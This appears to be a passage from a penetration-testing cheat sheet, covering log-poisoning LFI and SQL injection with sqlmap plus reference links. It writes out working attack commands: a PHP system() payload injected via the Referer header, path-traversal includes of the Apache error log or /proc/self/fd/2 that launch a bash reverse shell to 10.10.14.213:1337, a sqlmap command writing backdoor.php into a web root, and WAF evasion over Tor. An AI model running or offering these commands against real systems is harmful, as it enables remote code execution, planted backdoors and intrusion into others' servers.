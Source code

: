 Error log:

```
root@kali:$ curl -X POST 'http://127.0.0.1/vuln1.php' --form "userfile=@docx/sample.docx" --form 'submit=Generate pdf' --referer 'http://nowhere.com/<?php system($_GET["cmd"]); ?>'
root@kali:$ curl 'http://127.0.0.1/vuln2.php?id=....//....//....//....//....//var//log//apache2//error.log&cmd=%2Fbin%2Fbash%20-c%20%27%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.213%2F1337%200%3E%261%27'
Or
root@kali:$ curl 'http://127.0.0.1/vuln2.php?id=....//....//....//....//....//proc//self//fd//2&cmd=%2Fbin%2Fbash%20-c%20%27%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.213%2F1337%200%3E%261%27'
```




## SQLi

* [swarm.ptsecurity.com/advanced-mssql-injection-tricks/](https://swarm.ptsecurity.com/advanced-mssql-injection-tricks/)



### sqlmap

* [Usage · sqlmapproject/sqlmap Wiki](https://github.com/sqlmapproject/sqlmap/wiki/Usage)
* [PayloadsAllTheThings/SQL Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#sql-injection-using-sqlmap)

Write file:

```
$ sqlmap -r request.req --batch --file-write=./backdoor.php --file-dest=C:/Inetpub/wwwroot/backdoor.php
```

Test WAF:

* [www.1337pwn.com/use-sqlmap-to-bypass-cloudflare-waf-and-hack-website-with-sql-injection/](https://www.1337pwn.com/use-sqlmap-to-bypass-cloudflare-waf-and-hack-website-with-sql-injection/)

```
$ sqlmap.py -u 'https://127.0.0.1/index.php' --data='{"id":"*"}' -p id --identify-waf --tamper='between,randomcase,space2comment' --random-agent --tor --check-tor --thread=1 -b --batch -v6
```



### DIOS

* [defcon.ru/web-security/2320/](https://defcon.ru/web-security/2320/)
* [www.securityidiots.com/Web-Pentest/SQL-Injection/Dump-in-One-Shot-part-1.html](http://www.securityidiots.com/Web-Pentest/SQL-Injection/Dump-in-One-Shot-part-1.html)
* [dba.stackexchange.com/questions/4169/how-to-use-variables-inside-a-select-sql-server](https://dba.stackexchange.com/questions/4169/how-to-use-variables-inside-a-select-sql-server)
* [www.mssqltips.com/sqlservertip/6038/sql-server-derived-table-example/](https://www.mssqltips.com/sqlservertip/6038/sql-server-derived-table-example/)
